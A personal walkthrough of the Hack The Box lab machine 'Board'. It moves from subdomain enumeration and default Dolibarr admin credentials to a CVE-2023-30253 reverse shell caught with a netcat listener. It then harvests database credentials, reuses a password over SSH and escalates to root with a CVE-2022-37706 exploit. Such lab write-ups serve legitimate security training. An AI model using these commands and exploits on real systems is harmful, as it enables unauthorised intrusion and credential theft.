



**Start 22:40 11/07**

First off we start with active recon. Use `nmap -sT -A 10.10.11.11` and we get the following output:

We see an open port `22 - SSH` and `80 - HTTP`. 

After visiting the website we see a contact form on `/contact.php?`. After submitting a test text message it refreshed the page thus it seems some functionality has been implemented. 

Afterwards we run a directory scan using `dirb` to find out what else can be found.
We find some directories but for most we do not have the permission to access them:

None of the directories were useful, which means it is time to start looking for subdomains.
To look for subdomains we'll be using `ffuf` to enumerate any other subdomains.
For this we will use the following command:
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://board.htb -H "Host: FUZZ.board.htb" -ic -t 200 -c -fs 15949

Right away we find a couple of interesting subdomains such as `crm` and `CRM`. Right about now it would be smart to edit the `/etc/hosts` file to add the `crm.board.htb` as well as `board.htb` under the machine IP. 
After adding the subdomain to the `/etc/hosts` file we gain access to the following website:

Here we see that it is powered by Dolibarr 17.0.0. Right away we can try to access it using basic credentials. I've tried a couple until `admin - admin`did the trick.

After looking up whether there's any CVE's available for this version of Dolibarr we find the following `CVE-2023-30253`:

After clicking the *see more details about vulnerability here* button we get traced to the following website https://www.swascan.com/security-advisory-dolibarr-17-0-0/ where we find the proof of concept of the CVE.

Just download and extract the `exploit.py` file, then follow the instructions of the Github page by starting `nc -lvnp 9001` and in another terminal type `python3 exploit.py http://crm.board.htb admin admin MACHINE_IP 9001`

If all went correctly (you might have to try multiple times) it should look something like this:

After moving to the `/home` directory we find a user `larissa` which we do not have access to.
To obtain access we need to understand how Dolibarr works. For that we can visit the following website https://wiki.dolibarr.org/index.php?title=Configuration_file 

We need to find the `conf` file so we do a search like `find / -type d -name 'conf' 2>/dev/null` 

Here we find a few files of which `conf.php` is one, `cat` this file and you get the following:

We see mentions of `port 3306` having a `MySQL` database running, we can try and connect to it with the provided `user` and `pass` -> `dolibarrowner`  -  `serverfun2$2023!!`. 

Connect to it using `mysql -u dolibarrowner -p`.

Of these `DATABASES` we will view the one called `dolibarr` first. After entering `use dolibarr;` we type `SHOW TABLES;` to view the different tables inside the chosen db. We get a really extensive list of `llx_` tables. Scrolling through them we find one that stands out, `llx_user`.

Index this table using `SELECT * FROM llx_user;`

Now we see the whole `llx_user` table with all it's contents. Here we'll try to crack the `dolibarr` superadmin hash -> `$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm`.
After trying to crack the hash we get nothing useful. 

Let's backtrack before diving deeper into the rabbit hole. We also know that `port 22 - SSH` is open. We have found a user called `larissa` in the `/home` directory. It is possible that this user recycles their passwords, thus we should try logging into `SSH` using the same password.

We try to connect using `ssh larissa@10.10.11.11` and using the same password as with the `SQL db` we gain access to the `SSH` port.

In the same directory we'll find the `user.txt` flag. 

After trying `sudo -l` to see sudo privileges we get the following text:

Now we'll check the [SUID/GUID](Linux%20Privilege%20Escalation.md#SUID/GUID) privileges for this user using the following command
`find / -perm -u=s -type f 2>/dev/null`. With this command we'll be checking to find any files with `SUID` privileges. 

One thing that stands out is the program called `enlightenment` that is running. After looking it up on Google we find the following information:

It appears to be a window manager for Linux. We can look up any exploits for this program to see if there's a CVE made for it.

Luckily for us there's a ready CVE on Github -> `CVE-2022-37706` meaning we just have to download the zip code and extract the exploit.

After downloading the zip file, extracting it to our `/home` directory and `chmod +x` the file we can run it by using `./exploit.sh`.

Just like that we have gained `root` privileges.
Now we need to find the `root.txt` flag.

As always it is placed in the `/root` directory.

**Finished 11:08 13/07**  

Links: [[Hack The Box]] 
